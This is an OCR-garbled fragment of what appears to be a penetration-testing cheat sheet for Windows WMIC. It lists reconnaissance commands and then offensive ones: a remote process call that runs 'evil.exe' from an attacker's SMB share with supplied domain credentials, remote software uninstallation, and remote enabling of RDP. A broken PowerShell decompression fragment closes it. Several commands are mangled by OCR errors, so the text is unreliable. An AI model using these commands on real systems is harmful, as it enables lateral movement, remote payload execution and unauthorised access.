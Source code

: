        <td style="text-align:left">wmic logicaldisk get description,name</td>
       <td style="text-align:left">Display logical sharing environment</td>
     </tr>
     <tr>
       <td style="text-align:left">wmic cpu get DataWidth /format:list</td>
       <td style="text-align:left">Show 32-bit or 64-bit version of the system</td>
     </tr>
    <tr>
       <td style="text-align:left">wmic service where started = true get name, startname</td>
       <td style="text-align:left">Show running services</td>
     </tr>
  </tbody>
</table>

### WMIC \[alias\] \[where\] \[clause\]

```text
[alias] == process, share, startup, service, nicconfig, useraccount, etc. 
[where] ==where (name="cmd.exe"), where (parentprocessid!=[pid]"), etc. 
[clause] ==list [fulllbrief], get [attribl, attrib2], call [method], delete
```

### Run the file in smb with specific identity information

```text
wmic /node: targetiP /user:domain\user /password:password process call create "\ \ smbiP \share\evil.exe" 
```

### Remove the software

```text
wmic product get name /value # Get software names 
wmic product where name="XXX" call uninstall /nointeractive 
```

### Remote user access

```text
wmic /node:remotecomputer computersystern get username 
```

### Show processes in real time

```text
wmic /node:machinename process list brief /every:l 
```

### Start RDP

```text
wmic /node:"machinename 4" path Win32_TerminalServiceSetting where 
AllowTSConnections=''O'' call SetAllowTSConnections ''1''
```


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"